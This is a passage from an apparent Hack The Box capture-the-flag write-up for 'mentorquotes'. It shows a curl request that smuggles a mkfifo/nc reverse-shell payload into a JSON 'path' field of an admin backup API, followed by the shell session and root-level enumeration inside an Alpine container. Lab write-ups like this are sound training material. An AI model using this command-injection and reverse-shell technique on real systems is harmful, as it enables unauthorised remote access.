 ```bash
sudo tcpdump -i tun0 -v icmp
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:42:59.673088 IP (tos 0x0, ttl 62, id 38684, offset 0, flags [DF], proto ICMP (1), length 84)
    mentorquotes.htb > 10.10.14.130: ICMP echo request, id 4096, seq 0, length 64
18:42:59.673178 IP (tos 0x0, ttl 64, id 26189, offset 0, flags [none], proto ICMP (1), length 84)
    10.10.14.130 > mentorquotes.htb: ICMP echo reply, id 4096, seq 0, length 64
```

## Foothold
So we have command execution, we can just do a revshell now, tried a few with bash, didn't work.
We'll realize later that's because we're in an Alpine container and as a result we only have sh.
```bash
curl -sX 'POST' \
  'http://api.mentorquotes.htb/admin/backup' \
  -H 'accept: application/json' \
  -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' \
  -H 'Content-Type: application/json'\
  -d '{"loc": "x;sleep 1;", "path": "xx;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.130 4242 >/tmp/f;"}'|jq .
```
```bash
rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.130] from (UNKNOWN) [10.10.11.193] 37345
sh: can't access tty; job control turned off
/app # pwd
/app
/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/app # ls -la
total 24
drwxr-xr-x    1 root     root          4096 Nov 10 16:00 .
drwxr-xr-x    1 root     root          4096 Mar 11 18:51 ..
-rw-r--r--    1 root     root          1024 Jun 12  2022 .Dockerfile.swp
-rw-r--r--    1 root     root           522 Nov  3 12:58 Dockerfile
drwxr-xr-x    1 root     root          4096 Nov 10 16:00 app
-rw-r--r--    1 root     root           672 Jun  4  2022 requirements.txt
/app # cd
/home/svc # ls -la
total 28
drwxr-x---    4 1001     1001          4096 Nov 11 17:41 .
drwxr-xr-x    1 root     root          4096 Nov 10 16:00 ..
lrwxrwxrwx    1 root     root             9 Nov 10 14:28 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          3771 Jun  7  2022 .bashrc
drwx------    3 1001     1001          4096 Jun 12  2022 .cache
drwxrwxr-x    5 1001     1001          4096 Jun 12  2022 .local
-rw-r--r--    1 1001     1001           807 Jun  7  2022 .profile
-rw-r-----    1 root     1001            33 Mar 11 18:51 user.txt
/home/svc # cat /etc/*release
3.10.3
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.10.3
PRETTY_NAME="Alpine Linux v3.10"
HOME_URL="https://alpinelinux.org/"
BUG_REPORT_URL="https://bugs.alpinelinux.org/"
/home/svc #
```
